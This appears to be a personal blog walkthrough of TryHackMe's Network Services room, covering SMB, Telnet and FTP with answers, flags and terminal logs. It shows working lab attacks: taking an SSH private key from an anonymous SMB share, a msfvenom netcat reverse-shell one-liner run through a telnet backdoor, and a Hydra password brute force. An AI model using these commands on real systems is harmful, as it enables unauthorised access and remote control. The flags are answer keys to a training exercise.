

I have been indecisive about choosing between TryHackMe and Hack The Box Academy. Both are great platforms for learning about cybersecurity, and I plan to use both. However, I think TryHackMe is more suitable for absolute beginners like me. While exploring their Network Services rooms, I found myself learning a lot, so I decided to make a post about them.

<div style="text-align: center"></div>

### SMB (Server Message Block) Protocol

---

#### Understanding SMB

What does SMB stand for?

```
Server Message Block
```

</br>

What type of protocol is SMB?

```
resposne-request
```

</br>

What do clients connect to servers using?

```
TCP/IP
```

<br>

What systems does Samba run on?

```
Unix
```

#### Enumerating SMB

Conduct an **nmap** scan of your choosing, How many ports are open?

```
3
```

```shell
root@ip-10-10-210-52:~# nmap 10.10.190.95

Starting Nmap 7.60 ( https://nmap.org ) at 2024-06-24 05:55 BST
Nmap scan report for ip-10-10-190-95.eu-west-1.compute.internal (10.10.190.95)
Host is up (0.00047s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:58:19:9C:D2:BD (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

<br>

What port is SMB running on?

```
139/445
```

```shell
root@ip-10-10-210-52:~# nmap -sV 10.10.190.95

Starting Nmap 7.60 ( https://nmap.org ) at 2024-06-24 05:57 BST
Nmap scan report for ip-10-10-190-95.eu-west-1.compute.internal (10.10.190.95)
Host is up (0.00042s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:58:19:9C:D2:BD (Unknown)
Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.04 seconds
```

<br>

Let's get started with **Enum4Linux**, conduct a full basic enumeration. For starters, what is the **workgroup** name?

```
WORKGROUP
```

```shell
root@ip-10-10-210-52:~# enum4linux -a 10.10.190.95
```

```shell
	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            POLOSMB
```

<br>

What comes up as the **name** of the machine?

```
POLOSMB
```

```shell
	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            POLOSMB

```

<br>

What operating system **version** is running?

```
6.1
```

```shell
 ======================================
|    OS information on 10.10.190.95    |
 ======================================
Use of uninitialized value $os_info in concatenation (.) or string at /root/Desktop/Tools/Miscellaneous/enum4linux.pl line 464.
[+] Got OS info for 10.10.190.95 from smbclient:
[+] Got OS info for 10.10.190.95 from srvinfo:
	POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03

```

<br>

What share sticks out as something we might want to investigate?

```
profiles
```

```shell
 =========================================
|    Share Enumeration on 10.10.190.95    |
 =========================================
WARNING: The "syslog" option is deprecated

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      Network Logon Service
	profiles        Disk      Users profiles
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
```

<br>

#### Exploiting SMB

What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

```
smbclient //10.10.10.2/secret -U suit -p 445
```

We can remotely access the SMB share using the syntax:
**smbclient //[IP]/[SHARE]** followed by the tags:
-U [name]: to specify the user
-p [port]: to specify the port
SMB default ports are **139 or 445**

<br>

Let's see if our interesting share has been configured to allow anonymous access, i,e it doesn't require authentication to view the files. We can do this easily by:

- using the username "Anonymous"
- connecting to the share we found during the enumeration stage
- and not supplying a password.

Does the share allow anonymous access? Y/N?

```
Y
```

```shell
root@ip-10-10-210-52:~# smbclient //10.10.190.95/profiles -U Anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Anonymous's password:
Try "help" to get a list of possible commands.
smb: \>
```

<br>

Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

```
John Cactus
```

```shell
smb: > more "Working From Home Information.txt"John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager

/tmp/smbmore.aObMlQ (END)
```

<br>

What service has been configured to allow him to work from home?

```
ssh
```

<br>

Okay! Now we know this, what directory on the share should we look in?

```
.ssh
```

<br>

This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

```
id_rsa
```

```shell
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 12:08:23 2020
  ..                                  D        0  Tue Apr 21 12:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 12:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 12:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 12:08:23 2020

		12316808 blocks of size 1024. 7583712 blocks available
```

<br>

Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

```
THM{smb_is_fun_eh?}
```

```shell
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (819.8 KiloBytes/sec) (average 819.8 KiloBytes/sec)
smb: \.ssh\> exit
root@ip-10-10-51-158:~# chmod 600 id_rsa
```

```shell
root@ip-10-10-51-158:~# ssh root@10.10.190.95 -i id_rsa
root@10.10.190.95's password:

root@ip-10-10-51-158:~# ssh johncactus@10.10.190.95 -i id_rsa
Connection closed by 10.10.190.95 port 22
root@ip-10-10-51-158:~# ssh JohnCactus@10.10.190.95 -i id_rsa
Connection closed by 10.10.190.95 port 22
root@ip-10-10-51-158:~# ssh cactus@10.10.190.95 -i id_rsa
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun 24 05:55:20 UTC 2024

  System load:  0.0                Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.190.95
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt
THM{smb_is_fun_eh?}
```

<br>

### Telnet

---

#### Understanding Telnet

What is Telnet?

```
Application Protocol
```

<br>

What has slowly replaced Telnet?

```
SSH
```

<br>

How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

```
telnet 10.10.10.3 23
```

<br>

The lack of what, means that all Telnet communication is in plain text?

```
Encryption
```

<br>

#### Enumerating Telnet

How many ports are open on the target machine?

```
1
```

```shell
PORT     STATE SERVICE REASON         VERSION
8012/tcp open  unknown syn-ack ttl 64
```

<br>

What port is this?

```
8012
```

<br>

This port is unassigned, but still lists the protocol it's using, what protocol is this?

```
TCP
```

<br>

Now re-run the nmap scan, without the -p- tag, how many ports show up as open?

```
0
```

<br>

Based on the title returned to us, what do we think this port could be used for?

```
a backdoor
```

```shell
PORT     STATE SERVICE VERSION
8012/tcp open  unknown
| fingerprint-strings:
|   DNSStatusRequest, DNSVersionBindReq, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, X11Probe:
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
```

<br>

Who could it belong to? Gathering possible **usernames** is an important step in enumeration.

```
Skidy
```

<br>

#### Exploring Telnet

Great! It's an open telnet connection! What welcome message do we receive?

```
SKIDY'S BACKDOOR
```

```shell
root@ip-10-10-46-62:~# telnet 10.10.220.9 8012
Trying 10.10.220.9...
Connected to 10.10.220.9.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```

<br>

Let's try executing some commands, do we get a return on any input we enter into that telnet session? (Y/N)

```
N
```

<br>

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

Start a tcpdump listener on your local machine.

```shell
root@ip-10-10-46-62:~# sudo tcpdump ip proto\\icmp -i ens5
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes
```

<br>

Now, use the command **Ping [local THM ip] -c 1** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
Y
```

```shell
root@ip-10-10-46-62:~# telnet 10.10.220.9 8012
Trying 10.10.220.9...
Connected to 10.10.220.9.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN ping 10.10.46.62 -c 1
```

```shell
root@ip-10-10-46-62:~# sudo tcpdump ip proto\\icmp -i ens5
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens5, link-type EN10MB (Ethernet), capture size 262144 bytes
03:35:25.225403 IP ec2-13-214-173-166.ap-southeast-1.compute.amazonaws.com > ip-10-10-46-62.eu-west-1.compute.internal: ICMP echo reply, id 16509, seq 14618, length 8
03:36:25.256032 IP ip-10-10-220-9.eu-west-1.compute.internal > ip-10-10-46-62.eu-west-1.compute.internal: ICMP echo request, id 1319, seq 1, length 64
03:36:25.256083 IP ip-10-10-46-62.eu-west-1.compute.internal > ip-10-10-220-9.eu-west-1.compute.internal: ICMP echo reply, id 1319, seq 1, length 64
```

<br>

We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. here's our syntax:
**msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R**

- **-p** = payload
- **host** = our local host IP address (this is your machine's IP address)
- **lport** = the port to listen on (this is the port on your machine)
- **R** = export the payload in raw format

<br>

What word does the generated payload start with?

```
mkfifo
```

```shell
root@ip-10-10-46-62:~# msfvenom -p cmd/unix/reverse_netcat lhost=10.10.46.62 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/loqsthl; nc 10.10.46.62 4444 0</tmp/loqsthl | /bin/sh >/tmp/loqsthl 2>&1; rm /tmp/loqsthl
```

<br>

Now all we need to do is start a netcat listener on our local machine. We do this using:
**nc -lvp [listening port]**

What would the command look like for the listening port we selected in our payload?

```
nc -lvp 4444
```

<br>

Success!! What is the contents of flag.txt?

```
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

```shell
root@ip-10-10-46-62:~# telnet 10.10.220.9 8012
Trying 10.10.220.9...
Connected to 10.10.220.9.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN mkfifo /tmp/loqsthl; nc 10.10.46.62 4444 0</tmp/loqsthl | /bin/sh >/tmp/loqsthl 2>&1; rm /tmp/loqsthl
```

```shell
root@ip-10-10-46-62:~# nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from ip-10-10-220-9.eu-west-1.compute.internal 57836 received!
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

<br>

### FTP (File Transfer Protocol)

---

#### Understanding FTP

What communications model does FTP use?

```
client-server
```

<br>

What's the standard FTP port?

```
21
```

<br>

How many modes of FTP connection are there?

```
2
```

The FTP server may support either Active or Passive connections, or both.

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.

<br>

#### Enumerating FTP

Run an nmap scan of your choice.

How many ports are open on the target machine?

```
2
```

<br>

What port is ftp running on?

```
21
```

<br>

What variant of FTP is running on it?

```
vsftpd
```

<br>

Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing **FTP [IP]** into the console, and entering "anonymous", and no password when prompted.

What is the name of the file in the anonymous FTP directory?

```
PUBLIC_NOTICE.txt
```

```shell
root@ip-10-10-87-146:~# ftp 10.10.41.45
Connected to 10.10.41.45.
220 Welcome to the administrator FTP service.
Name (10.10.41.45:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
226 Directory send OK.
ftp>
```

<br>

What do we think a possible username could be?

```
Mike
```

```shell
ftp> get PUBLIC_NOTICE.txt
local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
226 Transfer complete.
353 bytes received in 0.00 secs (226.4958 kB/s)
ftp> bye
221 Goodbye.
root@ip-10-10-87-146:~# ls
burp.json   Desktop    Instructions  Postman            Rooms    thinclient_drives
CTFBuilder  Downloads  Pictures      PUBLIC_NOTICE.txt  Scripts  Tools
root@ip-10-10-87-146:~# cat PUBLIC_NOTICE.txt
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available
over the weekend- we will be
carrying out routine system
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike
```

#### Exploiting FTP

<div style="text-align: center"></div>

<br>

What is the password for user "mike"?

```
password
```

```shell
root@ip-10-10-87-146:~# hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.41.45 ftp
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-06-25 04:40:47
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.41.45:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.41.45 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
[21][ftp] host: 10.10.41.45   login: mike   password: password
[STATUS] attack finished for 10.10.41.45 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-06-25 04:41:03
```

<br>

What is ftp.txt?

```
THM{y0u_g0t_th3_ftp_fl4g}
```

```shell
root@ip-10-10-87-146:~# ftp 10.10.41.45
Connected to 10.10.41.45.
220 Welcome to the administrator FTP service.
Name (10.10.41.45:root): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
226 Directory send OK.
ftp> get ftp.txt
local: ftp.txt remote: ftp.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
226 Transfer complete.
26 bytes received in 0.00 secs (29.6273 kB/s)
ftp> bye
221 Goodbye.
root@ip-10-10-87-146:~# cat ftp.txt
THM{y0u_g0t_th3_ftp_fl4g}
```
